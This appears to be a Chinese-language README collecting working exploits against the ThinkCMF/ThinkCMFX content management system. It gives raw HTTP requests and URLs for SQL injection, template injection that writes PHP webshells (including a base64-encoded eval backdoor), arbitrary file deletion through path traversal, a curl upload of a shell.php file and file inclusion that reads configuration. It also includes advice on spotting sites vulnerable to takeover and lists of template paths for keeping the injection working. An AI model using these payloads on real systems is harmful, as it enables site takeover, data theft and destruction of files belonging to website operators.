 ## ThinkCMF漏洞全集和  
> ...持续收集,欢迎贡献  

- 前台SQL注入:  
> 需要普通用户权限，默认可注册  
> paylaod:  

```raw
POST /ThinkCMFX/index.php?g=portal&m=article&a=edit_post HTTP/1.1
Host: localhost
Connection: close
Cookie: PHPSESSID=kcg5v82ms3v13o8pgrhh9saj95
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

post[id][0]=bind&post[id][1]=0 and updatexml(1, concat(0x7e,user(),0x7e),1)--+-

```
> 还有以下可以测试：  
```raw
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
```

- 前台模版注入漏洞-可getshell四处  

```raw
# 仅在Windows环境测试
# 第一处  
http://website/ThinkCMFX/index.php?g=Comment&m=Widget&a=fetch&templateFile=/../public/index&content=<%3fphp+file_put_contents('m.php','<%3fphp+eval($_POST[_])%3b');?>&prefix=
# 第二处  
http://website/ThinkCMFX/index.php?g=Api&m=Plugin&a=fetch&templateFile=/../../../public/index&content=<%3fphp+file_put_contents('m.php','<%3fphp+eval($_POST[_])%3b');?>&prefix=

# 第三处  
/index.php?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>

# 第四处
/index.php?a=fetch&content=<?php+file_put_contents("mrxn.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbIjAwMCJdKTs/Pg=="));

```

- 任意文件删除-只能windows删除  
> 在用户上传头像处存在任意文件删除漏洞，发送如下数据包后，会删除网站根目录下一个名为 test.txt 的文件。（该漏洞仅能在 Windows 下触发）  
```
POST /ThinkCMFX/index.php?g=User&m=Profile&a=do_avatar& HTTP/1.1
Host: localhost
Cookie: PHPSESSID=bggit7phrb1dl99pcb2lagbmq0;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

imgurl=..\..\..\test.txt
```

- 任意文件上传  
> 在 ThinkCMFX2.2.3 最终版中，存在一处任意文件上传（需要普通用户权限，默认可注册）  
` curl -F "file=@/tmp/shell.php" -X "POST" -b 'PHPSESSID=qekmttucmue6vv41kpdjghnkd0;' 'http://127.0.0.1/ThinkCMFX/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile'
`

- 任意文件包含（读取数据库配置等等）  
`/index.php?a=display&templateFile=README.md`

### 使用说明  
> thinkcmf 并没有死，并且有3版本与5版本这里提供一些方法，帮助你们辨别哪一些是可以日的，那一些事不行的。
1.看logo 3的logo是黄色的.
2.在网站url 后面输入 admin,如果页面是蓝色的表示是3的，可日穿之.
3.查看 README.md 在网站url后面输入README.md.
> 另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个`模板不存在`错:
```raw
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>
```
请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个html即可
```
例如：
/../public/index
/../public/exception
/../data/index
/../data/runtime/index
/../plugins/Mobileverify/View/admin_index
/../plugins/Mobileverify/View/index
/../plugins/Mobileverify/View/widget
/../plugins/Demo/View/admin_index
/../plugins/Demo/View/index
/../plugins/Demo/View/widget
/../application/Install/View/Public/footer
/../application/Install/View/Public/head
/../application/Install/View/Public/header
/../application/Common/index
/../application/Portal/Lang/en-us/index
/../application/Api/Lang/en-us/index
/../application/Api/Lang/zh-cn/index
/../application/Comment/Lang/en-us/index
/../application/Comment/Lang/zh-cn/index
```

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>
```
```
/../../../public/index
/../../../public/exception
/../../../data/index
/../../../data/runtime/index
/../../../plugins/Mobileverify/View/admin_index
/../../../plugins/Mobileverify/View/index
/../../../plugins/Mobileverify/View/widget
/../../../plugins/Demo/View/admin_index
/../../../plugins/Demo/View/index
/../../../plugins/Demo/View/widget
/../../../application/Install/View/Public/footer
/../../../application/Install/View/Public/head
/../../../application/Install/View/Public/header
/../../../application/Common/index
/../../../application/Portal/Lang/en-us/index
/../../../application/Api/Lang/en-us/index
/../../../application/Api/Lang/zh-cn/index
/../../../application/Comment/Lang/en-us/index
/../../../application/Comment/Lang/zh-cn/index
```
> 还有最后一句废话：模版注入对于linux 并不好用 : )  

参考：  
https://xz.aliyun.com/t/3409
https://xz.aliyun.com/t/3529 
https://mochazz.github.io/2019/07/25/ThinkCMFX%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%90%88%E9%9B%86/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0